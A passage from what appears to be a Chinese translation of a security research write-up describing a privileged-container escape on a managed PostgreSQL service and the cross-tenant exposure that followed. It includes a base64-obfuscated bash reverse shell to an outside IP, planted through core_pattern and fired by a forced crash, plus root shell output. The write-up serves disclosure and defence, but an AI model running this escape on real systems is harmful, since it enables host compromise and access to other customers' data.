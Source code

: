 虽然我们一开始对用户名有一些长度限制，但这个流程工作得很完美，我们成功地在“版本升级检查”容器中以root身份执行了代码！

由于这个容器是特权的，我们可以使用容器逃逸技术：core_pattern

如果被挂载为可写（它是），我们可以覆盖，它定义了一个命名核心转储文件的模板。/proc/sys/proc/sys/kernel/core_pattern
的语法允许通过|字符将核心转储传递给一个程序。由于与主机共享，所以在发生崩溃时，程序将在主机上执行。这将允许容器逃逸。/proc/sys/kernel/core_patterncore_pattern

幸运的是，对于我们来说，这种技术的所有条件都满足了。我们用一个bash反向shell（用base64编码）覆盖了：core_pattern

> linux中的/proc目录是一个伪文件系统，其中动态反应着系统内进程以及其他组件的状态。
>
>
> /proc/sys/kernel/core_pattern文件是负责进程奔溃时内存数据转储的，当第一个字符是管道符|时，后面的部分会以命令行的方式进行解析并运行。利用这种特性进行逃逸
    
    
    echo '|/bin/bash -c   
    echo${IFS%%??}L2Jpbi9iYXNoIC1pPiYvZGV2L3RjcC8yMC4xMjQuMTk0LjIxMi82MDAwMSAwPiYxCg==|base64${  
    IFS%%??}-d|/bin/bash' > /proc/sys/kernel/core_pattern

回到我们的 PostgreSQL 容器，我们所要做的就是让我们的进程崩溃：

> 这条命令的作用是让当前 shell 进程收到一个 SIGSEGV 信号，导致进程异常终止。
    
    
    $: sh -c 'kill -11 "$$"'

我们从主机（K8s 节点）获得了一个反向 shell！

    
    
    [root@i-gw80v6j*REDACTED* /]   
      
    $: id   
    uid=0(root) gid=0(root) groups=0(root)

#### K8s 跨租户访问

与 AnalyticDB 一样，我们利用强大的kubelet凭证来收集集群信息。

我们列出了所有的
pod，并观察到租户的几个数据库位于同一个节点上。就在那时我们意识到我们的节点正在托管多个租户。我们一注意到这一点，就立即停止了研究，并避免访问其他客户的数据。

    
    
    # Other customers’ data mounted on our node  
    $: mount | grep -i /mount | grep -ioE 'pgm-(.*?)/' | sort | uniq   
    pgm-*REDACTED*-data-19d1322c/   
    pgm-*REDACTED*-data-15c361da/   
    pgm-*REDACTED*-data-38f60684/   
    pgm-*REDACTED*-data-61b4d30a/   
    pgm-*REDACTED*-data-0197fb99/   
    pgm-*REDACTED*-data-0fa7676b/   
    pgm-*REDACTED*-data-52250988/   
    pgm-*REDACTED*-data-8d044ffb/   
    pgm-*REDACTED*-data-09290508/   
    pgm-*REDACTED*-data-bc610a92/   
    pgm-*REDACTED*-data-d386ec2d/   
    pgm-*REDACTED*-data-ed5993d7/   
    pgm-*REDACTED*-data-a554506c/   
    pgm-*REDACTED*-data-d99da2be/
